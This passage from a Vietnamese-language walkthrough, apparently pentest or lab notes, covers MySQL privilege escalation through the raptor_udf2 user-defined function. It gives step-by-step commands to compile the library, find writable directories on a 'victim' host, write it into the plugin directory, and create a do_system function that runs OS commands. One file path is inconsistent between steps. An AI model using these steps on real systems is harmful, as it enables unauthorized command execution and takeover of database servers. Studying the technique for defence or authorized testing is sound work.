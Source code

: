 ```console
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc 
```

Tìm một thư mục nào đó trên máy victim mà ta có quyền ghi:

```console
$ find / -type d -writable 2>/dev/null
...
...
/var/www/html
...
```

Với ví dụ trên là `/var/www/html`
Download file `raptor_udf2.so` về thư mục `/var/www/html` trên máy victim.
Quay lại với MySQL console:

```console
MySQL [mysql]> show variables like '%plugin%';
+-----------------+------------------------+
| Variable_name   | Value                  |
+-----------------+------------------------+
| plugin_dir      | /usr/lib/mysql/plugin/ |
+-----------------+------------------------+
1 rows in set (0.001 sec)
```

Note lại cái `plugin_dir` kia, tạo 1 bảng `foo`:

```console
MySQL [mysql]> create table foo(line blob);
```

Insert file `raptor_udf2.so` vào `foo`:

```console
MySQL [mysql]> insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

Tạo plugin trong thư mục `plugin_dir` đã note:

```console
MySQL [mysql]> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

Tạo function để gọi câu lệnh hệ thống:

```console
MySQL [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
```

Check lại xem function đã được tạo chưa:

```console
MySQL [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
```
